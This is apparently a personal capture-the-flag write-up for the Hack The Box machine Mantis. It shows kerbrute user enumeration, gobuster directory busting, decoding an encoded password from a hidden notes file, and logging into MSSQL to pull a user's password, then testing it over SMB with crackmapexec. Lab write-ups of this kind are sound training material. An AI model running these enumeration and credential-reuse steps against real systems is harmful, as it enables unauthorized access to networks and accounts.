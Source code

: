 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![[Pasted image 20240516015043.png]]
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

Tried this command but it didn't worked
```
mysql -h 10.10.10.52 -P 50255 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

I have installed a GUI base software to handle this stuff
![[Pasted image 20240516011427.png]]


![[Pasted image 20240516013029.png]]


```
Hostname: 10.10.10.52
Database: orcharddb
Password: m$$ql_S@_P@ssW0rd!
```

It worked finally and i was able to download the database
![[Pasted image 20240516014152.png]]


We got the database we want
![[Pasted image 20240516014208.png]]
Now will search for passwords

Will simply search for Users
![[Pasted image 20240516015532.png]]

Select data and we get the password
```
james@htb.local
```

```
J@m3s_P@ssW0rd!
```

![[Pasted image 20240516015649.png]]


```
crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
```
![[Pasted image 20240516015931.png]]

